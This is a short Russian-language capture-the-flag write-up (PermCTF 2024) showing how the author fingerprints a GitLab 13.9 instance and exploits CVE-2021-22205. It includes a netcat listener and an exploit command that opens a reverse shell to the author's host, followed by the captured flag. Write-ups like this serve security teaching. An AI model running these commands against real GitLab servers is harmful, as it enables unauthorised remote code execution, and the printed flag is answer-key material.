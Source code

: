 # Gitlab
## Описание
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gitlab.jpg)


## Решение 

1. Заходим на сайт, видим страницу логина гитлаба
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_1.png)


2. Попытаемся найти версию гитлаба через /help
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_2.png)

3. версия 13.9, ищем возможный эксплойт для этой версии и находим CVE-2021-22205

4. качаем и открываем шелл
```
netcat -lvvp 9999 # открываем шелл
python CVE-2021-22205.py -u http://84.201.151.173:8888 -m rev 192.168.0.104 1234 # эксплуатация уязвимости
```

5. видим в директории файл flag
```
cat flag
```
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_3.png)


## Ресурсы
https://github.com/inspiringz/CVE-2021-22205

## Флаг
PermCTF{980081b41adf8263c5bc46352cb0b41tgds26}